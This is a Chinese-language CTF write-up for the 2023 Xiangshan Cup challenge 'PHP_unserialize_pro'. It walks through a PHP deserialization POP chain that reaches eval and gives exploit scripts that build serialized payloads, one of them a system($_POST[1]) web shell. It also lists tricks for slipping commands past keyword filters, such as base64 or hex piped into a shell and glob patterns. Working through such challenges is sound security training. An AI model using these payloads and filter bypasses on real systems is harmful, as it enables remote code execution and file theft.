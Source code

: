 ```yaml
---
layout: mypost
title: "[香山杯 2023]PHP_unserialize_pro"
categories: [ctf_wp]
---
```


## 前言

香山杯的这道题其实反序列化一眼就能看出 pop 链，难的可能就是这个正则的绕过方法，多刷题多总结就行了。

## 解题

1.观察源码

![](1.png)

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

一步一步来，先找一下危险函数在哪里，很明显就是 G00d 里面的 eval 函数，那么想要触发这个函数，就得先触发 G00d.invoke（）这个魔术方法。

```
__invoke()：当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用
```

很明显，让令 H4ck3r 类里面的$func让它等于一个对象就可以，然后这个$function()是在 H4ck3r.tostring 里面的，要想要触发这个 tostring（）函数的话，就是要先到 Welcome.destruct()函数，因为正则匹配就是针对于字符串的匹配，把这个要匹配的字符串传成一个对象即可。

```
__toString()：当一个对象被当作一个字符串时使用
```

再看，反序列化的实质就是将字符串转换为对象，虽然也是生成了一个对象，但这个过程确实是不会去触发构造函数的（构造函数只有 new 才会触发），但是这个对象被销毁的时候，一定是会触发析构函数的，所以这个析构函数所在的类，就是要序列化的对象，序列化这个对象，才可以将各个类联系起来。

pop 链

```
__destruct()->__toString()->__invoke()
```

2.编写 exp 如下-->

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell = "strtolower";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "show_source(chr(47).chr(102).chr(49).chr(97).chr(103));";

    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
$a = new Welcome();
$b = new G00d();
$c = new H4ck3r();
$a->name = "A_G00d_H4ck3r";
$a->arg = $c;
$c->func = $b;
echo serialize($a);
?>
```

先用第一步查看根目录下有一个名为 f1ag 的文件，然后再读取就行了，分别对应着上面两个 cmd 里面的内容，记得是分别序列化。总结一下 flag 关键字被过滤还有哪些方法-->

```
反斜线转义 cat fla\g.php

两个单引号做分隔 cat fl''ag.php

base64编码绕过 echo Y2F0IGZsYWcucGhw | base64 -d | sh

hex编码绕过 echo 63617420666c61672e706870 | xxd -r -p | bash

glob通配符 cat f[k-m]ag.php cat f[l]ag.php

?和*

cat f{k..m}ag.php

定义变量做拼接 a=g.php; cat fla$a

内联执行cat echo 666c61672e706870 | xxd -r -p 或 cat $(echo 666c61672e706870 | xxd -r -p) 或 echo 666c61672e706870 | xxd -r -p | xargs cat
```

## 记录

在网上看到另一种写法，具体如下：

```php
<?php
    class Welcome {
        public $name;
        public $arg = 'welcome';
    }

    class G00d {
        public $shell;
        public $cmd;
    }

    class H4ck3r {
        public $func;
    }

$h = new H4ck3r();
$w = new Welcome();
$g = new G00d();
$w->name = "A_G00d_H4ck3r";
$w->arg = $h;
$h->func = $g;
$g->shell = "urldecode";
$g->cmd = "system(\$_POST[1]);";
echo serialize($w);

//O:7:"Welcome":2:{s:4:"name";s:13:"A\_G00d\_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:9:"urldecode";s:3:"cmd";s:18:"system($\_POST\[1\]);";}}}
```

![](2.png)

还有一点绕过姿势，简单记录

```
 class G00d{
        public $shell = "system";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "more /[e-h]1[0-b][e-h]";#1
        public $cmd = "sort /[!q]1[!q][!q]";#2
        public $cmd = "cd /;echo `more dir`";#3
        public $cmd = "cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`";";#4
    }
```

![](3.png)

师傅们确实强 ORZ，ORZ。
